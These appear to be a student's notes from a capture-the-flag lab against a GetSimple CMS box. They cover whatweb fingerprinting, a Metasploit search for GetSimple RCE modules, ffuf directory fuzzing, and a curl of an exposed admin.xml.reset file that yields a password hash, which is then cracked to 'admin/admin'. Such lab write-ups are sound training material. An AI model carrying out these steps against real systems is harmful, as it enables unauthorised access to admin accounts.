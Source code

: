 Port 80 appears to be running

CMS - GetSimple CMS 

version 3.3.15
http://10.129.6.57/data/cache/2a4c6447379fba09620ba05582eb61af.txt

Logs invalid logins!!
http://10.129.201.192/data/other/logs/failedlogins.log

sudo sh -c 'echo "10.129.201.192 gettingstarted.htb" >> /etc/hosts'

![[Pasted image 20241007141415.png]]

```
whatweb http://10.129.201.192
```

```
┌──(paige㉿PH-LT02)-[/home/paige]
└─PS> whatweb http://10.129.201.192                                                                                
http://10.129.201.192 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.201.192], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]    
```

![[Screenshot_2024-10-07_11_56_34.png]]

## Metasploit

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[Pasted image 20241007144838.png]]

Which allows us to grab the first capture flag
![[Pasted image 20241007145121.png]]
## Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.201.192/FUZZ -t 100 -ic -c 
```
Output

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.201.192/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 20ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 18ms]
plugins                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
theme                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 19ms]
backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 19ms]
:: Progress: [220546/220546] :: Job [1/1] :: 4065 req/sec :: Duration: [0:00:47] :: Errors: 0 ::

### Passwords

Tried the following credentials below to gain access to admin after determining the hash.

```
┌──(paige㉿PH-LT02)-[~]
└─$ curl -s  http://10.129.201.192/data/users/admin.xml.reset | xmllint --format - 
<?xml version="1.0" encoding="UTF-8"?>
<item>
  <USR>admin</USR>
  <NAME/>
  <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
  <EMAIL>admin@gettingstarted.com</EMAIL>
  <HTMLEDITOR>1</HTMLEDITOR>
  <TIMEZONE/>
  <LANG>en_US</LANG>
</item>```
```

http://gettingstarted.htb/admin

| username                 | password                                 |
| ------------------------ | ---------------------------------------- |
| admin                    | admin                                    |


